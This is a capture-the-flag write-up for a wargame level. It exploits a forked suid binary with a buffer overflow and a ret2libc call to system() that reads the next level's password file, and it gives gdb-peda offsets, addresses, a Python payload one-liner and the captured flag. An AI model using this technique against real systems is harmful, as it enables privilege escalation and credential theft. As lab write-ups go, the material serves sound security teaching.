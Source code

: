 # Level02

## Setup
 * There is one file in our home, ```level04```, belonging to ```level05``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
	* `main()` is the only function of interest.
	* The program starts with a `fork()`
		* Child process will ask for a shellcode and then launch `gets()`
		* Parent process does a couple of verifications
			* `WIFEXITED()` and `WIFSIGNALED()` which does not impact us too much
			* It then checks if the child process uses `execv()` with this :
```c
ptrace_ret = ptrace(PT_READ_U, pid, 0x2c, 0x0);
if (ptrace_ret != 0xb)
	continue ;
```

## Solution
 * We will use a `buffer overflow` vulnerability on the child process
 * We will not be able to use our usual shellcode, as the parent process constantly checks for the use of `execv()`, and kills the child process if it uses it.
 * We will execute a `Ret2libc` attack with the help of `system()`, with the argument `"cd ../level05; cat .pass"`

 1. Let's get the `EIP` offset on our input. For this we can use `pattern` from gdb-peda
```gdb
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

gdb-peda$ run
[New process 1802]
Give me some shellcode, k
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

...

gdb-peda$ pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 156

```

 2. Next we will setup our argument in the environment. To make it easier we will use an empty env, and then get its address using our `env.c` in the Ressources directory.

```sh
level04@OverRide:~$ env -i COMMAND="cd ../level05; cat .pass" /var/crash/env COMMAND
COMMAND: 0xffffdfd0
```

 3. Now we want to get the address of `system()`

```gdb
 p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

 4. We can now prepare our Buffer overflow injection
 	1. [`'A' * 156`]				-> Padding to access EIP
	2. [`'\xf7\xe6\xae\xd0'[::-1]`]	-> `system()` address
	3. [`'OSEF'`]					-> Padding for using `ret` instead of `call`
	4. [`'\xff\xff\xdf\xd5'[::-1]`]	-> `COMMAND` address (we needed to add 5)

```sh
level04@OverRide:~$ python -c "print('A' * 156 +  '\xf7\xe6\xae\xd0'[::-1]) + 'OSEF' + '\xff\xff\xdf\xd5'[::-1]" > /var/crash/lvl4
```
 5. We can now execute our attack and get our flag !

```sh
level04@OverRide:~$ cat /var/crash/lvl4 | env -i COMMAND="cd ../level05; cat .pass" ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
